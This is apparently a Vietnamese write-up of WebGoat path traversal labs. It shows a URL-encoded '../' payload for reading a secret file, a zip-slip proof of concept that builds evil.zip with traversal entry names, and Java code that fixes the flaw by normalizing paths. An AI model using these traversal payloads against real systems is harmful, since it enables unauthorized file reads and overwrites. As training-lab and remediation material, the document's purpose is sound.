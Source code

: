 - Dùng payload `%2e%2e%2f%2e%2e%2fpath-traversal-secret` để đọc file này.

![image.png]((A3)%20Injection%2062a301a7fd4143a4ad699d1a864c382e/image%2020.png)

## Lab 7

### Nguyên nhân lỗi

- Khi giải nén file thì không kiểm tra kỹ tên file, điều này khiến cho kẻ tấn công có thể thay đổi tên file nén → dẫn đến có thể kiểm soát được đường dẫn mà file giải nén được giải nén.

![image.png]((A3)%20Injection%2062a301a7fd4143a4ad699d1a864c382e/image%2021.png)

### POC

- Tạo một đường dẫn muốn tấn công trên máy attack, ở đây là `/home/webgoat/.webgoat-2023.8/PathTraversal/shr3wd/shr3wd.jpg`

```bash
mkdir /home/webgoat/.webgoat-2023.8/PathTraversal/shr3wd
cd /home/webgoat/.webgoat-2023.8/PathTraversal/shr3wd
file shr3wd.jpg
```

- Sau đó nén file với đường dẫn này

```bash
zip evil.zip ../../../../../../../../home/webgoat/.webgoat-2023.8/PathTraversal/shr3wd/shr3wd.jpg
```

- Upload file `evil.zip`này lên để bypass được

### Cách khắc phục

```java
try {
    Path uploadedZipFile = tmpZipDirectory.resolve(file.getOriginalFilename());
    FileCopyUtils.copy(file.getBytes(), uploadedZipFile.toFile());

    try (ZipFile zip = new ZipFile(uploadedZipFile.toFile())) {
        Enumeration<? extends ZipEntry> entries = zip.entries();
        while (entries.hasMoreElements()) {
            ZipEntry e = entries.nextElement();

            Path resolvedPath = tmpZipDirectory.resolve(e.getName()).normalize();

            if (!resolvedPath.startsWith(tmpZipDirectory)) {
                throw new IOException("Zip entry is outside of the target directory: " + e.getName());
            }

            if (e.isDirectory()) {
                Files.createDirectories(resolvedPath);
            } else {
                Files.createDirectories(resolvedPath.getParent());

                try (InputStream is = zip.getInputStream(e)) {
                    Files.copy(is, resolvedPath, StandardCopyOption.REPLACE_EXISTING);
                }
            }
        }
    }

    return isSolved(currentImage, getProfilePictureAsBase64());
} catch (IOException e) {
    return failed(this).output("An error occurred during file processing.").build();
```